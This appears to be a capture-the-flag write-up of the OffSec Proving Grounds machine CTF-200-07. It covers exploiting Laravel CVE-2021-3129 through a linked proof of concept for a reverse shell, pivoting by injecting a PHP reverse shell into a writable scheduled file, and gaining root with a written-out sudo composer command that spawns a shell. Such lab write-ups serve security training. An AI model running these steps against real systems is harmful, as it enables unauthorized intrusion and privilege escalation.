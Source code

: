 ```yaml
---
title: CTF-200-07 (OffSec. Proving Grounds)
image: /assets/writeups/trace10.jpg
description: Write-up of CTF-200-07 Machine
date: 2023-12-29
categories: [proving grounds]
tags: [lavaral, CVE, LAvita, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Host is up, received syn-ack (0.23s latency).
Scanned at 2023-12-28 00:54:45 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

So we found two ports open `22` & `80`

#### Port 80:

Visiting Port `80` we see a web app running which is also running **Laravel 8.4.0**, Quick Google Search and I found [CVE-2021-3129](https://security.snyk.io/vuln/SNYK-PHP-FACADEIGNITION-1059267)

> [POC](https://raw.githubusercontent.com/joshuavanderpoll/CVE-2021-3129/main/CVE-2021-3129.py)

## www-data:

We can use this POC to execute the commands like:

![poccheck.png](../../assets/writeups/2023-12-27-CTF-200-07/poccheck.png)

Running the POC to get callback for reverse shell,

![gettingrev1.png](../../assets/writeups/2023-12-27-CTF-200-07/gettingrev1.png)

and we get the user shell

![rev2.png](../../assets/writeups/2023-12-27-CTF-200-07/rev2.png)

## Getting User:

User skunk belong to sudo(27) group (Found in linPEAS result). So we need to get shell as user skunk.

Running Pspy to check for the necessary files and ways we can get the skunk shell and i found this php file running which belongs to user `Skunk` 

![pspyresult.png](../../assets/writeups/2023-12-27-CTF-200-07/pspyresult.png)

And we have Write Access to it, 

![writeaccess.png](../../assets/writeups/2023-12-27-CTF-200-07/writeaccess.png)

Injecting a PHP reverse shell will get us the shell as user `Skunk`

![Screenshot_2023-12-28_11-47-12.png](../../assets/writeups/2023-12-27-CTF-200-07/Screenshot_2023-12-28_11-47-12.png)

## Getting Root:

Sticking to the basics i ran `sudo -l` and i found 

```bash
skunk@debian:/$ sudo -l
sudo -l
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *

```

And [GTFO](https://gtfobins.github.io/gtfobins/composer/#limited-suid) has exploit method for composer, we follow the path 

```bash
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```

Since only `www-data` has write access to it, so do this whilst being in the `www-data` shell and then back to `Skunk` shell we run

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

and we get root shell

![root.png](../../assets/writeups/2023-12-27-CTF-200-07/root.png)


